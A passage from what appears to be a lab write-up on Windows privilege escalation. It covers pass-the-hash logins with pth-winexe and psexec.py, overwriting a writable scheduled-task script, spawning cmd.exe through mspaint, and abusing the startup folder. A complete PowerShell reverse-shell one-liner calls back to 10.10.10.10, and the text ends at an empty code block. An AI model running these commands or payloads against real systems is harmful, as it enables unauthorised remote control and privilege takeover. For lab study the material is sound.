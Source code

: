 ```
password123      (admin)     
password321      (user)     
Passw0rd!        (Administrator)  
```
### Password: Pass the hash attack
- Lets assume that we are not able to crack the hash as its not in the wordlist, then we can use this attack **Pass the hash**, which allows us to authenticate with the help of hash!
- So get the hash, here lets login as **admin** whose hash is `a9fdfa038c4b75ebc76dc855dd74f0da`
- First export, `export SMBHASH=aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da` here we're using hash with groupid as well
- Then run `pth-winexe -U admin% //10.10.213.97 cmd.exe`, I got shell as **admin**
- The tool `pth-winexe` is already available in kali.
- If stuck check this: https://www.whitelist1.com/2017/10/pass-hash-pth-attack-with-pth-winexe.html
- We can also use `psexec.exe` file to connect through SMB by Pass the hash attack.
- `python3 psexec.py -hashes <LMHASH:NTHASH> admin@10.10.188.132`


## Exploiting Scheduled tasks:
- Like in Linux there are schedules tasks in windows as well.
- To view all the schedules tasks run `schtasks /query /fo LIST /V`
- Here `CleanUp.ps1` seems interesting and the path is `C:\DevTools\CleanUp.ps1`
- So lets see what we can do this location as well as to that file, `accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1` and we have all the privileges to read, write...etc
- The process in the description of task is bit different so I looked for a powershell-reverseshell, which is,
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
- Then I transferred and renamed as `CleanUp.ps1` and I got connection.

## Insecure GUI apps:
- After getting RDP connection open `Taskmanager` and there in `Details` tab we can see the applications and the user, who's running that.
- Here they intentionally configured `mspaint.exe` to run as admin, so this will be out target.
- As we're working with **Paint** we'll have an option to open files, so we'll open `file://c:/windows/system32/cmd.exe` and boom! We go the shell as **admin** user!
- Here the functionality is bit limited coz we might not always get an RDP connection.


## Startup Apps:
- Windows has a feature to allow some apps to run in Startup, we can abuse this feature.
- Startup apps are found in `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`, this is default path.
- Lets check what we can do thru **accesschk.exe**, so run `accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"`. The output is,
```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW WIN-QBA94KB3IOF\Administrator
  RW WIN-QBA94KB3IOF\admin
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  R  Everyone
```
- Here there's a script called `CreateShortcut.vbs` which runs with admin priviliges and the mail aim of this is to create a `shortcut` for the reverse-shell which we uploaded.
```vbs
```